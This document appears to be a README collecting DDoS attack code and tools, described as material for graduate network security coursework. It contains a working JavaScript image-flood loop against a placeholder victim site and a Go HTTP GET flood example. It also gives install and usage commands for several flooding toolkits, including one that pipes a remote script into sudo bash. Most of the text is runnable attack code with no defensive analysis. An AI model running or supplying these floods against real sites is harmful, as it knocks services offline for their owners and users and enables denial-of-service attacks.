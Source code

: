 # DDoS
Snippets of code and resources related to DDoS attacks for graduate coursework on network security

 ![DDoS All The Things](/ddos-logo.jpg)

## Table of Contents

- [imgflood](#imgflood-Layer-7-flood-attack)
- [Raven-Storm Toolkit](#Raven-Storm-Toolkit)
- [ufonet](#ufonet)
- [DDoS Infinite HTTP GET](#DDoS-Infinite-HTTP-GET)
- [Golang-httpflood](#Golang-httpflood)
- [DDoS-Ripper](#DDoS-Ripper)
- [DDoS Scripts](#DDoS-Scripts)

## imgflood Layer 7 flood attack
- Link: [An introduction to JavaScript-based DDoS](https://blog.cloudflare.com/an-introduction-to-javascript-based-ddos/)

```
function imgflood() {
  var TARGET = 'victim-website.com'
  var URI = '/index.php?'
  var pic = new Image()
  var rand = Math.floor(Math.random() * 1000)
  pic.src = 'http://'+TARGET+URI+rand+'=val'
}
setInterval(imgflood, 10)
```

## Raven-Storm Toolkit
- Link: [Raven-Storm Toolkit GitHub](https://github.com/Taguar258/Raven-Storm)

```
curl -s https://raw.githubusercontent.com/Taguar258/Raven-Storm/master/install.sh | sudo bash -s
```

## ufonet
- Link: [ufonet GitHub](https://github.com/epsylon/ufonet)

You can automatically get all required libraries using (as root):
```
python3 setup.py install
```
For manual installation, on Debian-based systems (ex: Ubuntu), run:
```
sudo apt-get install python3-pycurl python3-geoip python3-whois python3-crypto python3-requests python3-scapy libgeoip1 libgeoip-dev
```
On other systems such as: Kali, Ubuntu, ArchLinux, ParrotSec, Fedora, etc... also run:
```
pip3 install GeoIP
pip3 install python-geoip
pip3 install pygeoip
pip3 install requests
pip3 install pycrypto
pip3 install pycurl
pip3 install whois
pip3 install scapy-python3
```

## DDoS Infinite HTTP GET
- Link: [DDoS HTTP GET GitHub](https://github.com/Konstantin8105/DDoS)

```
func main() {
	workers := 100
	d, err := ddos.New("http://127.0.0.1:80", workers)
	if err != nil {
		panic(err)
	}
	d.Run()
	time.Sleep(time.Second)
	d.Stop()
	fmt.Println("DDoS attack server: http://127.0.0.1:80")
	// Output: DDoS attack server: http://127.0.0.1:80
}
```

## Golang-httpflood
- Link: [Golang-httpflood GitHub](https://github.com/Leeon123/golang-httpflood)

Install Golang
[Golang Download & Installation](https://go.dev/doc/install) 

Change Linux Resource Limit
```
ulimit -n 999999
```

Clone Repo
```
git clone https://github.com/Leeon123/golang-httpflood.git
```

Header.txt format
```
Accept: text/html
User-agent: Wget
Referer: http://google.com
```

Usage
```
cd golang-httpflood
go build httpflood.go
./httpflood  <url> <threads> <get/post> <seconds> <header.txt/nil>
```

## DDoS-Ripper
- Link: [DDoS-Ripper GitHub](https://github.com/palahsu/DDoS-Ripper)

```
sudo apt install git 
git clone https://github.com/palahsu/DDoS-Ripper.git 
cd DDoS-Ripper 
$ ls 
$ python3 DRipper.py OR python2 DRipper.py
```

## DDoS Scripts
- Link: [DDoS Scripts GitHub](https://github.com/PraneethKarnena/DDoS-Scripts)